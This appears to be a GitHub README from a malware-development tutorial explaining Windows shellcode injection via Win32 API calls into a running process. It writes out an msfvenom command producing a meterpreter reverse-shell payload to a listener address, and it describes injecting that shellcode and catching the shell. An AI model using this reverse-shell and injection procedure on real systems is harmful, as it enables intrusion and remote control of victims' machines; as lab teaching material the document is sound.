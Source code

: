 ## `💉` Shellcode Injection

This technique is as vanilla as it gets; the simplest. It's also *quite* elegant. By attaching to an existing process, we're able to inject our own shellcode into it and have our shellcode run. A bit of an oversimplification since there's actually a lot going on under the covers; but we'll talk about that next. We're going to be using a lot of **Win32 API** calls for our malware development until we get more advanced in our craft. I've created another repo called [low-level](https://github.com/cr-0w/low-level) that also documents my experience with low-level languages including: `Assembly`, `C`, `C++`, `Win32 API`, etc. You could take a gander at it before coming here in case you're brand-brand new.

A shellcode injection consists of the following API calls:

- [`OpenProcess()`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)
- [`VirtualAllocEx()`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
- [`WriteProcessMemory()`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
- [`CreateRemoteThread()`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)

> **Note**:
> *All of the documentation for these functions, as well as the Win32 API can be found/read from [Microsoft themselves](https://learn.microsoft.com/en-us/windows/win32/apiindex/windows-api-list). It's an amazing resource; although it may seem extremely daunting at first. However, I promise that if you take the time to actually read it - as well as read the related documents that use your function, you'll come to appreciate this resource.*

## `💽` Demo

https://user-images.githubusercontent.com/59679082/220434097-27645ac4-c8a8-4679-bee8-f5ec277853a0.mp4

## `⚠️` Malicious Shellcode Example

> **Warning**:
> *The final code, isn't exactly a super-vanilla implementation of this technique. I included my code from the [process enumeration](https://github.com/cr-0w/low-level/tree/main/Win32%20API/5-enumerateprocess) part of my [low-level](https://github.com/cr-0w/low-level) repository. I thought it would be a neat little way of combining some concepts.*

In this example, I opted to go for harmless shellcode, which just pops-a-calc. You could definitely swap out your shellcode for something like a meterpreter shell or something. If I can help it, I'll try to opt for the less-malicious shellcode as a PoC. However, since this is our *first* time doing this, why not be a little extra? 😊

First, let's generate some shellcode with `msfvenom`. We'll try to get a simple meterpreter reverse shell going. 

```bash
cr0w@blackbird: ~
ζ ›› msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.198.128 LPORT=443 exitfunc=thread -b "\x00" -f c
```

![image](https://user-images.githubusercontent.com/59679082/220697432-372ce7ba-21d6-406f-b85a-9fde69b94130.png)

> **Note**:
> *Obviously, this would IMMEDIATELY get flagged by pretty much any AV/EDR; so, if you're planning on running this in a patched environment, good luck.*


With the shellcode now generated, we can include it in our script.

```cpp
unsigned char buf[] = ""; // SHELLCODE HERE
```

![image](https://user-images.githubusercontent.com/59679082/220699108-2a9717cb-eda9-465b-8e87-7ca8534ccafe.png)

Nice, our script is now *locked and loaded*. Let's compile it, and get our `exploit/multi/handler` ready to catch the shell. 

![image](https://user-images.githubusercontent.com/59679082/220700137-31a60641-0aa3-4fd9-bc35-4d115d8c5edd.png)

Finally, we can now use our executable to see if we catch a shell. Let's see how it goes:

https://user-images.githubusercontent.com/59679082/220713806-f2b4d399-f045-4699-805a-c4da7c7c930e.mp4

We can also inspect the notepad process after getting a shell. We can see that it gets a new DLL that it [should otherwise never have](https://www.ired.team/offensive-security/code-injection-process-injection/process-injection#references). `ws2_32.dll` which is responsible for sockets.

![image](https://user-images.githubusercontent.com/59679082/220707821-832d13fc-99ad-422f-80a4-b1a5a5f935e7.png)


## `💖` Extra Resources

> **Note**: *I will be making a YouTube video about this technique and the [DLL Injection](https://github.com/cr-0w/MALDEV/tree/main/DLL%20Injection) on my [YouTube Channel](https://www.youtube.com/@crr0ww), once I do, I'll update this line with the link to the video. Until then, keep your eyes peeled* 😄 

Some other resources you can use to read up on this technique are:

- [CreateRemoteThread Shellcode Injection](https://www.ired.team/offensive-security/code-injection-process-injection/process-injection)
- [Process Injection using CreateRemoteThread API](https://tbhaxor.com/createremotethread-process-injection/)
- [Process Injection: Remote Thread Injection or CreateRemoteThread](https://aliongreen.github.io/posts/remote-thread-injection.html)
